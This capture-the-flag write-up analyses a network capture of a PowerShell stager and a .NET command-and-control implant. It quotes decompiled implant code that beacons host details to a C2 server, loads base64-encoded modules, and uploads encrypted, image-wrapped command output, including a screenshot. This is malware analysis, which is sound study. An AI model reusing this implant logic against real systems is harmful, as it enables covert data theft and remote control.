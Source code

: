 # Interstellar C2 (hard)
For this challenge we get a traffic capture file.
So let's open this in wireshark.

One of the first packets we see is an HTTP request for some powershell file.
I have saved this in `stage1.ps1`
I didn't deobfuscate this file, because it wasn't too hard to see what was happening.
* A file named `94974f08-5853-41ab-938a-ae1bd86d8e51` is downloaded
* A new AES cipher is created key and iv in the file, hard coded
* The decrypted content is saved in the temp folder under some hard coded filename
* The file is executed

Now I go back to wireshark to extract this encrypted file from packet 62.
I have also created the `grab.py` to decrypt this file.
The AES cipher uses padding by default even though it is not explicitly set in the powershell stage.
The result is saved to `stage2.bin`.

The resulting binary is a .NET assembly, let's load it into ILSpy
It will jump through some setup code and then call the `primer` function.

First it will use a predefined key and send some basic information about the host to the C2
```cs
string text4 = array[i];
string un = $"{userDomainName};{text};{environmentVariable};{environmentVariable2};{id};{processName};1";
string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
text3 = text4;
string address = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
try
{
    string enc = GetWebRequest(Encryption(key, un)).DownloadString(address);
    text2 = Decryption(key, enc);
}
catch (Exception ex)
{
    Console.WriteLine($" > Exception {ex.Message}");
    continue;
}
```

Then the server responds with some setup information to our bot.

```cs
Regex regex = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
Match match = regex.Match(text2);
string randomURI = match.Groups[1].ToString();
regex = new Regex("URLS10484390243(.*)34209348401SLRU");
match = regex.Match(text2);
string stringURLS = match.Groups[1].ToString();
regex = new Regex("KILLDATE1665(.*)5661ETADLLIK");
match = regex.Match(text2);
string killDate = match.Groups[1].ToString();
regex = new Regex("SLEEP98001(.*)10089PEELS");
match = regex.Match(text2);
string sleep = match.Groups[1].ToString();
regex = new Regex("JITTER2025(.*)5202RETTIJ");
match = regex.Match(text2);
string jitter = match.Groups[1].ToString();
regex = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
match = regex.Match(text2);
string key2 = match.Groups[1].ToString();
regex = new Regex("IMGS19459394(.*)49395491SGMI");
match = regex.Match(text2);
string stringIMGS = match.Groups[1].ToString();
ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter);
```

The most interesting here is the `NEWKEY` field, which is going to set the symmetic key for further communication.

Let's discuss a bit about how the encrypt/decrypt protocol works.
The cipher:
* AES CBC
* Padding: Zeros - pad with zeroes until proper length is reached
* Block size: 128
* Key size: 256

Message layout:
* 16 bytes - IV
* Rest - encrypted message content

Now that we know how the encryption is carried out we can decrypt the parameters sent by the C2.
I wrote the `dec_command.py` script to carry out this task.
The encrypted response I have saved from wireshark in the `first_command` file.
The decrypted output is in `c2_init_config`.
Inspecting the config file we know the new key that will be used for the rest of the communication.

Next up the bot will call the `ImplantCore` function, which will start periodically polling the server with `GET` requests for potential commands.

```cs
if (!text.ToLower().StartsWith("multicmd"))
{
    continue;
}
string text2 = text.Replace("multicmd", "");
string[] array = text2.Split(new string[1] { "!d-3dion@LD!-d" }, StringSplitOptions.RemoveEmptyEntries);
string[] array2 = array;
```

The bot will only execute commands starting with `multicmd`.
Then it will split on some pre-defiend string and process the commands one-by-one

```cs
foreach (string text3 in array2)
{
    taskId = text3.Substring(0, 5);
    cmd = text3.Substring(5, text3.Length - 5);
    // ...
}
```

The first five characters will be the task ID of the command, and the rest is the actual command.
The taskID is probably used by the C2 to keep track of which commands are replied to by the bot once the command finishes.
I have written the `decmd.py` script that will decrypt and interpret the `multicmd` response sent by the server.

I have dumped `cmd{1..3}.enc` packets from the C2, from wireshark.
These are from the HTTP replies that correspond to `GET` requests, are considerably large and contain the proper base64 reply.
Many HTTP replies seem to be there as a distraction either just saying `200 OK` or some random HTML with base64 looking strings, I have ignored these.

1. The first command seems to load 2 modules and then invoke the `loadpowerstatus` command.
2. The second command loads another module and then `run-dll` on the SharpSploit.Credentails class
3. The third command grabs a screenshot

Module loading base64 decodes the input, and then loads the assembly into the current context
```cs
string s = Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase);
Assembly assembly = Assembly.Load(Convert.FromBase64String(s));
Exec(stringBuilder.ToString(), taskId, Key);
```

`run-dll` will call the `rAsm` function which will look into the assemblies in the current application domain and execute the one that matches the input.

Oddly enough `loadpowerstatus` and `get-screenshot` do not seem to correspond to any predefined commands.
```cs
string text4 = rAsm($"run-exe Core.Program Core {cmd}");
```

In this case the `else` branch is executed and `run-exe` will be called on the `Core.Program` assembly.
`run-exe` works similarly to `run-dll` the difference being that dll allows a member function to be called, whereas exe calls the entrypoint in all cases with the input passed in the first argument to the entrypoint.

At this point I had a choice to make, either dive into the assemblies (3 of them) or look into how the client responds to the C2.
For some reason my intuition told me to look into how replies work, but it also could have been the case that the flag was hiding in one of the assemblies.

To send replies from the client to the C2 the `Exec` function is called.
```cs
if (string.IsNullOrEmpty(key))
{
    key = pKey;
}
string cookie = Encryption(key, taskId);
string text = "";
text = ((encByte == null) ? Encryption(key, cmd, comp: true) : Encryption(key, null, comp: true, encByte));
byte[] cmdoutput = Convert.FromBase64String(text);
byte[] imgData = ImgGen.GetImgData(cmdoutput);
int num = 0;
while (num < 5)
{
    num++;
    try
    {
        GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);
        num = 5;
    }
    catch
    {
    }
}
```

1. A cookie is generated, which is just the task ID encrypted. This will be used to identify the response and it is provided through setting a cookie in the web request
2. The input data is encrypted, possibly a string or an array of bytes
3. The result is converted back to a byte array
4. The byte array is combined with image data
5. The client tries to send the request as `POST` five times until it succeeds.

Important difference to note here is that replies are compressed before they are sent to the server.
This is done using the `Compress` function which just GZIP compresses the data.

Let's look into how the image generator works
```cs
internal static byte[] GetImgData(byte[] cmdoutput)
{
    int num = 1500;
    int num2 = cmdoutput.Length + num;
    string s = _newImgs[new Random().Next(0, _newImgs.Count)];
    byte[] array = Convert.FromBase64String(s);
    byte[] bytes = Encoding.UTF8.GetBytes(RandomString(num - array.Length));
    byte[] array2 = new byte[num2];
    Array.Copy(array, 0, array2, 0, array.Length);
    Array.Copy(bytes, 0, array2, array.Length, bytes.Length);
    Array.Copy(cmdoutput, 0, array2, array.Length + bytes.Length, cmdoutput.Length);
    return array2;
}
```

1. Choose a random image from the configured list. Recall that this was configured through the very first reply to the client from the C2.
2. Get the bytes of the image
3. Create a random string, so that the image and the string combined take up 1500 bytes
4. The image, then the padding, then the command output are copied to the final result array.

Okay, so now we know how the client sends replies.
I wrote the `deresp.py` script to decode responses from the client to the C2.
I have saved some `POST` request bodies in the `resp{1,3,4,5}.enc` files, I have focused on bodies that had length greater than 1516 (the empty string response)

I began using my script to decode the replies and `resp5.enc` was suspiciously long.
Upon decoding it I saw a PNG header, so I knew this must have been the response to the `get-screenshot` command.
I then saved the decoded result into `response5.png`

Sure enough this image contained the flag as a sticky note on the top right, so we win :)
